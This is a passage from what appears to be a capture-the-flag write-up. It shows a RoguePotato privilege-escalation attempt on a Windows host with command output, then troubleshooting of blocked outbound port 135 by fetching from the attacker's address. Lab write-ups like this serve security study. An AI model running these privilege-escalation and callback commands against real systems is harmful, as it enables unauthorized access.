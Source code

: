 After uploading it, starting the `socat` redirector, and running it, there’s never a connection back:

```

PS C:\programdata> .\rp.exe -r 10.10.14.15 -e "cmd.exe /c ping 10.10.14.15" -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}                  
[*] IStoragetrigger written:104 bytes
[-] Named pipe didn't received any connect request. Exiting ...  

```

Some troubleshooting shows that it looks like outbound TCP 135 is blocked. When I try to connect back on 80, it works:

```

PS C:\Users\sonny> wget 10.10.14.15/test -usebasicparsing

StatusCode        : 200
StatusDescription : OK
Content           : {116, 101, 115, 116...}
RawContent        : HTTP/1.0 200 OK
                    Content-Length: 10
                    Content-Type: application/octet-stream
                    Date: Tue, 25 May 2021 19:00:38 GMT
                    Last-Modified: Tue, 25 May 2021 19:01:16 GMT
                    Server: SimpleHTTP/0.6 Python/3.9.2

                    t...
Headers           : {[Content-Length, 10], [Content-Type, application/octet-stream], [Date, Tue, 25 May 2021 19:00:38 GMT], [Last-Modified, Tue, 25 May 2021 19:01:16 GMT]...}
RawContentLength  : 10

```

But if I change the webserver and the request to 135, it fails to connect:

```

PS C:\Users\sonny> wget 10.10.14.15:135/test -usebasicparsing
wget : Unable to connect to the remote server 
At line:1 char:1
+ wget 10.10.14.15:135/test -usebasicparsing
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

```
